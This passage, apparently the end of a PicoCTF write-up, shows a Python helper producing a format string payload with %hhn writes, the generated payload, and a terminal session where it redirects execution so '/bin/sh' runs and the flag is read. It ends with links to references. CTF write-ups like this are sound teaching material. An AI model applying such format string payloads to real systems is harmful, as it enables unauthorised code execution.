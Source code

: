```Python
    fmt_str += "%"+str(add)+"x%"+str(51+i)+"$hhn"
fmt_str += "\n"

print fmt_str
```

So we run that script as follows and get the format string we need to enter.

```
$ python calc_system_fmt_str.py 0x7fb39c05ecf0
e %144x%51$hhn%100x%52$hhn%16x%53$hhn%152x%54$hhn%23x%55$hhn%204x%56$hhn%129x%57$hhn%256x%58$hhn
$
```

Then in terminal 1 we finish the hack. We need only execute a shell with ```/bin/sh``` and cat the flag.

```
Config action: e %144x%51$hhn%100x%52$hhn%16x%53$hhn%152x%54$hhn%23x%55$hhn%204x%56$hhn%129x%57$hhn%256x%58$hhn
Exit message set!
                                                                                                                                        9c3b4323                                                                                            9c3b57a0        9c0e9c00                                                                                                                                                9c3b57a0               6e686824                                                                                                                                                                                                           0                                                                                                                         d04ca112                                                                                                                                                                                                                                                        d04ca520sh: 1: Config: not found
e /bin/sh
Exit message set!
ls
console
flag.txt
xinetd_wrapper.sh
cat flag.txt
e2d674ac146fc20d424c9c0d5e16760a
```

If you are interested in learning more about format string attacks check out our writeup for [Flagsay 2](https://github.com/MeadeRobert/PicoCTF2017/tree/master/binary_exploitation/level4/flagsay_2) or some of these links. They sure helped us out a lot.

[http://hamsa.cs.northwestern.edu/readings/format-strings/](http://hamsa.cs.northwestern.edu/readings/format-strings/)

[https://trailofbits.github.io/ctf/exploits/references/formatstring-1.2.pdf](https://trailofbits.github.io/ctf/exploits/references/formatstring-1.2.pdf)

